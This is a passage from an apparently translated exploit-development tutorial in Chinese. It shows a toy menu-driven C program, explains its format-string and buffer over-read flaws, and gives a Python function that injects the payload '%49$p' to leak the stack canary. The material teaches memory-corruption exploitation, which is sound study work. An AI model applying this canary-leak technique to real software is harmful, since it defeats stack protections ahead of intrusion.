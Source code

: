 ```

Choose: 1
Data: I'm 0xNinjaCyclone


1- Write
2- Read
3- Read full data
4- Exit

Choose: 2
I'm 0xNinjaCyclone


1- Write
2- Read
3- Read full data
4- Exit

Choose: 3
Hello Guys I'm 0xNinjaCyclone


1- Write
2- Read
3- Read full data
4- Exit

Choose: 4
                                                                                                                                                         
┌──(user㉿host)-[~]
└─$
```

  
  
如果你留意读取函数，就会发现它们都容易受到格式化字符串漏洞的影响，即用户控制的数据printf以格式的形式传递给函数，而这种传递方式并不安全。该buf_read函数还容易受到缓冲区过度读取漏洞的影响，因为pBuf->cpReadData指针会打印出它指向的内容，并在读取完成后移动到内存中，而从未检查过移动到的内存是否属于它应该读取的缓冲区。利用这两个漏洞中的任何一个，我们都可以泄露秘密的金丝雀/cookie。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrFKI5icmPysFydibspAJp3YEIyVrVMPthdHibVB837sml6fkFvLbcktPUg/640?wx_fmt=png&from=appmsg "")  
  
如你所见，我们可以利用格式字符串漏洞，%49$p通过 write 函数注入有效载荷，然后利用 read 函数将其泄漏出去，从而泄露金丝雀数据。阅读格式字符串漏洞利用文章：  
https://0xninjacyclone.github.io/posts/exploitdev_7_strfmt/  
，了解我们的操作。我们可以使用 Python 自动执行此操作，如下所示：  
  

```
def leak_canary(p: Popen):
    p.stdin.write( b&#34;1\n&#34; + b&#34;%49$p\n&#34; + b&#34;2\n&#34;)
    p.stdin.flush()
    out= b&#34;&#34;
    canary_pos = -1
    n = 0
    
    while n < 1024:
        out = p.stdout.readline()
        canary_pos = out.find( b&#34;0x&#34; )
        ifbool( ~canary_pos ):
            break

        n += 1

    else:
        return-1

```